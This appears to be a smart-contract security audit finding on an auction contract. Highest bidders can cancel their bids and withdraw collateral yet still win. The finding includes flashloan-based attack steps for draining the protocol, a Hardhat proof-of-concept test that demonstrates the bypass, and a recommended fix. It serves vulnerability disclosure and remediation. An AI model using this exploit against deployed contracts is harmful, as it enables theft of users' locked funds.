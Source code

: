 Mean Seafoam Dachshund

high

# [H-01] Highest bidder can cancel their bid and withdraw their collateral.

## Summary

The highest bidder is normally forbidden from canceling their bid. However, due to a vulnerability, they can cancel and withdraw their bid while still remaining the highest bidder and winning the auction. This allows an attacker to win an auction by only paying the fee amount and then withdrawing their collateral amount. This vulnerability also leads to an incorrect collateral calculation within the protocol, which will drain the protocol's funds.

## Vulnerability Detail

The highest bidder is prevented from calling the `cancelBid()` function, which would call the `_cancelBid()` function and revert with the following check at https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L393-L396?plain=1 :

```solidity
        require(
            bidder != l.highestBids[tokenId][round].bidder,
            'EnglishPeriodicAuction: Cannot cancel bid if highest bidder'
        );
```

However, this same check is not implemented in `_cancelAllBids()`. This means the highest bidder is able to call `cancelAllBidsAndWithdrawCollateral()` to cancel their bid, withdraw their collateral, and still be the highest bidder.

Attack scenario will go as follows:

1.  The attacker calls `placeBid()` on an auction with a very high amount of ether to ensure they are the highest bidder. Flashloans can be used to increase the impact of this attack.
2. The attacker calls `cancelAllBidsAndWithdrawCollateral()` to get their collateral back but remain the highest bidder.
3. The attacker calls `closeAuction()` and becomes the owner of the Steward License token.

A more dangerous attack scenario exists as well:

1. The attacker is the current steward of the Steward License token.
2. The attacker uses flashloans with another address (let's call it `address2`) they own to place a very high bid on the auction using the `placeBid()` function.
3. The attacker calls `cancelAllBidsAndWithdrawCollateral()` on `address2` to ensure they withdraw their collateral minus the fee amount and remain the highest bidder.

4. The attacker calls `closeAuction()`, and `address2` becomes the new Steward License token owner.

5. The `closeAuction()` function adds the bid amount to the attacker's (old steward's) collateral with the following line at https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L496-L501?plain=1 :

```solidity
 } else if (
            l.highestBids[tokenId][currentAuctionRound].bidder != oldBidder
        ) {
            // Transfer bid to previous bidder's collateral
            l.availableCollateral[oldBidder] += l.highestBids[tokenId][currentAuctionRound].bidAmount;
```

6) The attacker calls `withdrawCollateral()` to withdraw the high amount of collateral they now own, completely draining the protocol of its funds.

## PoC

Add the following test in `EnglishPeriodicAuction.ts` :

```jsx
describe('cancelBid', function () {
	it.only('will not revert if highest bidder cancels and withdraws', async function () {
      // Auction start: Now - 200
      // Auction end: Now + 100
      const instance = await getInstance({
        auctionLengthSeconds: 300,
        initialPeriodStartTime: (await time.latest()) - 200,
        licensePeriod: 1000,
      });
      const licenseMock = await ethers.getContractAt(
        'NativeStewardLicenseMock',
        instance.address,
      );

      const bidAmount = ethers.utils.parseEther('1.1');
      const feeAmount = await instance.calculateFeeFromBid(bidAmount);
      const collateralAmount = feeAmount.add(bidAmount);

      const bidAmount2 = ethers.utils.parseEther('1.2');
      const feeAmount2 = await instance.calculateFeeFromBid(bidAmount2);
      const collateralAmount2 = feeAmount2.add(bidAmount2);
      
      //bid with both accounts.
      await instance.connect(bidder1).placeBid(0, bidAmount, { value: collateralAmount }); 
      await instance.connect(bidder2).placeBid(0, bidAmount2, { value: collateralAmount2 });
      //bidder2 balance after placing bid.
      const oldBidderBalance = await ethers.provider.getBalance(bidder2.address,);
      //bidder2 cancels bid and withdraws while highest bidder.
      await expect(instance.connect(bidder2).cancelAllBidsAndWithdrawCollateral(0),).to.not.be.revertedWith('EnglishPeriodicAuction: Cannot cancel bid if highest bidder',);
      
      const highestBid = await instance['highestBid(uint256)'](0);
      //will not revert if bidder2 is the highest bidder.
      expect(highestBid.bidder).to.be.equal(bidder2.address);
      expect(highestBid.bidAmount).to.be.equal(bidAmount2);
      expect(highestBid.feeAmount).to.be.equal(feeAmount2);
      expect(highestBid.collateralAmount).to.be.equal(collateralAmount2);
      //close auction
      await time.increase(300);
      await instance.connect(bidder2).closeAuction(0);
      //check owner of tokenId = 0 after auction is closed.
      const ownerOfToken = await licenseMock.ownerOf(0);
      //will not revert if bidder2 is the owner of tokenId = 0.
      expect(await ownerOfToken).to.be.equal(bidder2.address);
      //print balances of bidder2 after placing a bid and after cancelling their bid and withdrawing.
      const newBidderBalance = await ethers.provider.getBalance(bidder2.address,);
      console.log(`Old bidder2 balance: ${ethers.utils.formatEther(oldBidderBalance)} - New bidder2 balance ${ethers.utils.formatEther(newBidderBalance)}`)
    });
```

Running the test will show that the attacker withdraws their token and gets their balances back. They will still be the highest bidder and become the owner of the Steward License token.

## Impact

The attacker will be the highest bidder and therefore become the owner of the token while only having paid a fee amount. The old steward's `l.availableCollateral` will be increased by the amount of collateral that was already withdrawn from the system by the attacker. This means that when the old steward calls `withdrawCollateral()`, they will be draining the protocol of its funds. This vulnerability will leave the protocol in a bankrupt state and will not allow any more users to withdraw their collateral.

## Code Snippet
https://github.com/sherlock-audit/2024-02-radicalxchange/blob/459dfbfa73f74ed3422e894f6ff5fe2bbed146dd/pco-art/contracts/auction/EnglishPeriodicAuctionInternal.sol#L416-L434?plain=1

```solidity
    function _cancelAllBids(uint256 tokenId, address bidder) internal {
        EnglishPeriodicAuctionStorage.Layout
            storage l = EnglishPeriodicAuctionStorage.layout();

        uint256 currentAuctionRound = l.currentAuctionRound[tokenId];

        for (uint256 i = 0; i <= currentAuctionRound; i++) {
            Bid storage bid = l.bids[tokenId][i][bidder];

            if (bid.collateralAmount > 0) {
                // Make collateral available to withdraw
                l.availableCollateral[bidder] += bid.collateralAmount;

                // Reset collateral and bid
                bid.collateralAmount = 0;
                bid.bidAmount = 0;
            }
        }
    }
```

## Tool used

Manual Review, Hardhat

## Recommendation

Change `_cancelAllBids` function as follows:

```solidity
    function _cancelAllBids(uint256 tokenId, address bidder) internal {
        EnglishPeriodicAuctionStorage.Layout
            storage l = EnglishPeriodicAuctionStorage.layout();

        uint256 currentAuctionRound = l.currentAuctionRound[tokenId];

        for (uint256 i = 0; i <= currentAuctionRound; i++) {
            Bid storage bid = l.bids[tokenId][i][bidder];

            if (bid.collateralAmount > 0) {
                //call _cancelBid
		_cancelBid(tokenId, i, bidder);
            }
        }
    }
```

